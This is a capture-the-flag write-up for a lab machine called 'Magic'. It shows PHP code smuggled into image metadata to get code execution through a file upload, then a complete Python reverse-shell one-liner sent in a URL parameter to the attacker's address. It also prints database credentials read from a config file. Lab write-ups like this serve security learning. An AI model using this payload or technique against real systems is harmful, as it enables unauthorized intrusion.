 ## **<span style='color:#ff5555'>Remote Code Execution</span>**
***

I found a medium article that was posting about **image file upload** and it uses exiftool to manipulate the `metadata` with php code of the default image.

> [Check in here](https://medium.com/@sebnemK/find-flag-in-image-file-upload-c9bc4975f595)

So I figured out how to manipulate the metadata and try to execute it with random image

![]({{ "/images/htb/magic/exiftoolX.png" | relative_url }})

***

The file got uploaded successfully and by visiting the web directories & access the file, I got **RCE** (Remote Code Execution)

![]({{ "/images/htb/magic/viewsourceX.png" | relative_url }})

***

## **<span style='color:#ff5555'>Reverse Shell</span>**
***

So instead of execute command `ls -lah,` I put python script one-liner to get reverse shell back to my machine.

```
http://magic.htb/images/uploads/rhovelionz.php.jpg?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.20",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
With this simple payload, I was able to get **www-data**'s shell.

![]({{ "/images/htb/magic/gotshell1X.png" | relative_url }})

***

Found `db.php5` in `/var/www/Magic` that shows database's `credential` that being used by username **theseus**.

## **<span style='color:#ff5555'>Escalating to user</span>**
***

```
www-data@ubuntu:/var/www/Magic$ cat db.php5
cat db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';

    private static $cont  = null;

    public function __construct() {
        die('Init function is not allowed');
    }

    public static function connect()
    {
```